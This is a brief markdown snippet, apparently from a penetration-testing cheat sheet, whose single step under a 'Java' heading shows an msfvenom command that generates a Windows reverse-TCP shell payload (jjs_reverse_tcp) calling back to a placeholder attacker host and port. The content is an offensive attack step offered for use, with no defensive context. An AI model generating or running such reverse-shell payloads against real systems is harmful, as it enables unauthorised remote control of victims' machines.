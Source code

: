 # Java

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/windows/jjs_reverse_tcp lhost=<IP> lport=<PORT>
```